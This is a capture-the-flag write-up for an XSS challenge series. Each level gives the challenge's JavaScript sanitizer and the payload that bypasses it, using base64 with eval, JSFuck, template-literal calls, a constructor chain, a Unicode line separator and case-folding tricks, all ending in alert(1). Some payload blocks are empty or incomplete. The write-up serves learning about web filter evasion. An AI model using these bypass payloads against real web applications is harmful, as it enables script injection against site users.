







# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)


# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `` tag :
```html

```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4
Sanitizer : 
```javascript
function sanitize(input) {
    // uppercase! how r ya gonna call that alert?
    return input.toUpperCase();
}
```
For this level I used [JsFuck](https://jsfuck.com/) , so the payload is : 
```
<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
```


# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\

`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```

(Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )

# Level 7 
Sanitizer : 
```javascript
function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[</'\r\n]/g, '');
    return "  \x3Cscript\x3E\n// the input is '" + sanitized + "'\n  \x3C/script\x3E";
}
```

In this case our input is placed in a comment so it is not executed 

After some research, I found a unicode character called [Line Separator (U+2028)](https://unicodeplus.com/U+2028), this character breaks the comment line (the character is not represented by any symbol so it may look like a simple space character )
```

alert(1)
--> 
```

I don't know why `-->` it works as a comment in this case I did so many tests to "bypass" the second quote `'`


# Level 8
Sanitizer : 
```javascript
function sanitize(input) {
    let sanitized = input;
    do{
        input = sanitized;
        // no opening tags
        sanitized = input.replace(/<[a-zA-Z]/g, '')
    } while (input != sanitized)
    sanitized = sanitized.toUpperCase();
    do{
        input = sanitized;
        // no script
        sanitized = input.replace(/SCRIPT/g, '')
    } while (input != sanitized)
    return sanitized.toLowerCase();
}
```
this script removes all `script` words and any alphabetic characters (a-z , A-Z) after `<` 

The interesting part is that the script uses first `toUpperCase()` and after `toLowerCase()`, so we can find unicode lowercase characters that share the same uppercase character, to find them I used a small script in JS :
```javascript
for (let i = 0; i < 65536; i++) {
    let i_start=String.fromCharCode(i)
    let i_upper = String.fromCharCode(i).toUpperCase();
    let i_lower = i_upper.toLowerCase();
    if (i_lower == "i"){ //change "i" to the character you want to test  
        console.log(i,i_start, i_upper, i_lower);
    }
}
```
With this script I found 2 characters that have the same uppercase character (I,S) 

so I used the `ı` character for the `` tag.
```html

```


